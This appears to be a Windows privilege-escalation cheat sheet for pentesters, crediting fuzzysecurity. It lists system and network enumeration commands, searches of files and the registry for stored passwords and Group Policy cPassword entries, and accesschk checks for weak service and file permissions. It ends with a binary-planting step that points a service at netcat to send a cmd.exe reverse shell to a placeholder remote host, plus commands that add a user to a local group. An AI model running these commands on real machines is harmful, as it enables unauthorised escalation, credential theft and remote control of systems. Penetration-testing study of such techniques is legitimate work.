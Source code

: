 
// What system are we connected to?  
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get the hostname and username (if available)  
hostname  
echo %username%

// Get users  
net users  
net user [username]

// Networking stuff  
ipconfig /all  

// Routing tables  
route print  

// ARP cache table for all interfaces  
arp -A  

// Active network connections  
netstat -ano  

// Firewall fun (Win XP SP2+ only)  
netsh firewall show state  
netsh firewall show config  

// Scheduled tasks  
schtasks /query /fo LIST /v  

// List all started services (DISPLAY_NAME)  
net start  

// List running processes  
tasklist  

// Mapping of running processes to started services  
tasklist /SVC  

// List all drivers  
DRIVERQUERY  

// WMIC fun (Win 7/8 -- XP requires admin)  
wmic /?  

// WMIC: check patch level  
wmic qfe get Caption,Description,HotFixID,InstalledOn  

// Search pathces for given patch  
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."  

// AlwaysInstallElevated fun  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  

### Quick wins  
---  

// Quick wins  
dir /s *pass* == *cred* == *vnc* == *.config*  
findstr /si password *.xml *.ini *.txt  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  

// Policy Preference files that may have "cPassword" attribute set:  
Groups.xml: documented password encryption, can be decrypted **SOS**  
Services\Services.xml: Element-Specific Attributes  
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element  
Printers\Printers.xml: SharedPrinter Element  
Drives\Drives.xml: Element-Specific Attributes  
DataSources\DataSources.xml: Element-Specific Attributes  

// Service permissions  
sc query  
sc qc [service_name]  

### Accesschk  
---  

// Accesschk (part of "sysinternals")  
accesschk.exe /accepteula (need to add that if you don't have GUI. maybe only the first time?)  

// List all user permissions  
accesschk.exe “domain\user” -a *  

// List all service permissions for username  
accesschk.exe <username> -c *  

// display permissions on every file  
accesschk.exe /accepteula -s -d IWAM_BOB c:\\*.*  
// only Read-Write  
accesschk.exe /accepteula -s -d IWAM_BOB c:\\*.* | find "RW"   

accesschk.exe -ucqv [service_name]   
accesschk.exe -uwcqv "[Group name you belong to]" *   

// Find all weak folder permissions per drive.  
accesschk.exe -uwdqs Users c:\  
accesschk.exe -uwdqs "[Group name you belong to]" c:\  

// Find all weak file permissions per drive.  
accesschk.exe -uwqs Users c:\*.*  
accesschk.exe -uwqs "[Group name you belong to]" c:\*.*  

// Binary planting  
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"  
sc config [service_name] obj= ".\LocalSystem" password= ""  
sc qc [service_name] (to verify!)  

// add user to local group  
net localgroup "Users" IWAM_BOB /add  

Mostly all of this taken from http://www.fuzzysecurity.com/tutorials/16.html [1]  

Links:
---
\[1]: http://www.fuzzysecurity.com/tutorials/16.html  
\[2]: https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/  
\[3]: http://www.youtube.com/watch?v=kMG8IsCohHA  
\[4]: http://www.youtube.com/watch?v=_8xJaaQlpBo  
\[5]: http://www.greyhathacker.net/?p=738  

